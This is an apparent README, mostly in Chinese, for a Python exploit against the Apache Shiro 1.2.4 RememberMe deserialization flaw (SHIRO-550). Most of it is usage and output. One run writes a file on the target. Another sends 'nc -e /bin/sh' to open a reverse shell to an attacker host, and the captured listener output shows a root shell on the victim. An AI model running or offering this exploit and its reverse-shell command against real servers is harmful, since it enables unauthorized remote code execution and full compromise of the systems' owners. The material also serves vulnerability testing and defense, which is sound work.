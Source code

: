 # Shiro RememberMe 1.2.4 反序列化漏洞（SHIRO-550）

![](./SHIRO-550.gif)

![](./commons-collections-3.2.1.jpg)

## python usage:

```
python3 shiro_rce.py


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞




[+] Usage: python3 shiro_rce.py http://10.10.20.166:8080/shiro/ command

```

## touch file

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "touch /tmp/123123123123"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:00

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

## Reverse shell

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "nc -e /bin/sh 192.168.5.86 9999"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:33

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

```
C:\Users\CTF>nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.5.86] from (UNKNOWN) [10.10.20.166] 38656
id
uid=0(root) gid=0(root) groups=0(root)
cd /tmp
ls
123123123123
```

## 参考链接：

http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html

https://blog.zsxsoft.com/post/35

https://paper.seebug.org/shiro-rememberme-1-2-4/
